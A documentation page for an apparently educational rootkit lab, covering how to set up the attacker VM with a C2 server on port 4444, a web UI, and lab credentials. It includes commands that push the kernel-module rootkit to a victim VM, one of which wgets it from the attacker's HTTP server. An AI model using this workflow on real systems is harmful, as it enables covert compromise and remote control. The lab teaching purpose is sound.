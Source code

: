 ```yaml
---
title: "Attacker VM Setup"
description: "Configure the attacking VM with C2 server and web interface"
icon: "terminal"
date: "2025-05-07T00:44:31+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 203
---
```




## Prerequisites

1. **Host setup**: [Host Environment Setup]({{< relref "environment.md" >}})
2. **VM disk**: `attacker.qcow2` in `/var/lib/libvirt/images/`
3. **VM launched**: `sudo ./scripts/run_vms.sh attacker`


## VM Access

- **IP**: 192.168.200.11 (static)
- **Credentials**: `attacker` / `jules` (auto-login)

## Setup Method

{{< tabs tabTotal="2" >}}

{{% tab tabName="Pre-built (Recommended)" %}}

### Quick Start

Everything is pre-configured. Build and run immediately:

```bash
# Inside attacker VM (auto-logged in)
cd epirootkit

# Build rootkit + Start C2 server + Web UI
cd .. && ./deploy_c2.sh
# ✅ Builds rootkit automatically
# ✅ C2 server: port 4444
# ✅ Web interface: port 3000
```

**Access**: `http://192.168.200.11:3000` from host browser or `http://localhost:3000` from attacker VM browser

{{% /tab %}}

{{% tab tabName="Fresh VM Setup" %}}

### Prerequisites on the VM

The setup requires the `setup_attacker.sh` script. You have two options to obtain it:

**Option 1: Get it from the host with python (recommended)**

```bash
# In the scripts/ directory on the host
python3 -m http.server 8080
```
Then on the attacker VM:

```bash
wget http://192.168.200.1:8080/setup_attacker.sh
chmod +x setup_attacker.sh
```



**Option 2: Download from GitHub Gist**

```bash
wget https://gist.githubusercontent.com/KazeTachinuu/397da3d739384de9e592a2e6f26b7cc0/raw/0895738fbf9dccc16dd6fe1139eb206ec9024076/setup_attacker.sh
chmod +x setup_attacker.sh

```


### Setup

**1. Install Dependencies (inside VM):**
```bash
./setup_attacker.sh
```
This installs:

- Node.js 18.x LTS
- Build tools (gcc, make, linux-headers-$(uname -r), python3)
- SSH server


**2. Deploy Project (from host):**
```bash
./scripts/deploy_project.sh
# ✅ Transfers all project files via SSH
```

**3. Auto Build and Start (inside VM):**
```bash
cd epirootkit && ./deploy_c2.sh
# ✅ Builds rootkit automatically
# ✅ Installs C2 dependencies  
# ✅ Starts C2 server + Web UI
```

**Access**: `http://192.168.200.11:3000` from host browser or `http://localhost:3000` from attacker VM browser


{{% /tab %}}

{{< /tabs >}}

#### Deploy to Victim

Transfer rootkit to victim VM:

```bash
# Option A: SCP
scp rootkit/epirootkit.ko rootkit/deploy_rootkit.sh victim@192.168.200.10:~/

# Option B: HTTP server
cd rootkit && python3 -m http.server 8080
# Victim: wget http://192.168.200.11:8080/{epirootkit.ko,deploy_rootkit.sh}

# Option C: Web UI file transfer
```

## Configuration

### Attacker VM Role
- **Builds rootkit**: Compiles `epirootkit.ko` for victim
- **C2 server**: Port 4444 (client connections)
- **Web interface**: Port 3000 (operator access)
- **File transfer**: Deploys payload to victim

### Network
- **Attacker IP**: `192.168.200.11`
- **C2 port**: `4444` (default)
- **Web UI**: `http://192.168.200.11:3000`

## Next Steps

1. **[Victim Setup]({{< relref "victim-vm-setup.md" >}})**: Deploy rootkit
2. **Monitor**: Watch for client connections
3. **Control**: Use CLI or Web UI
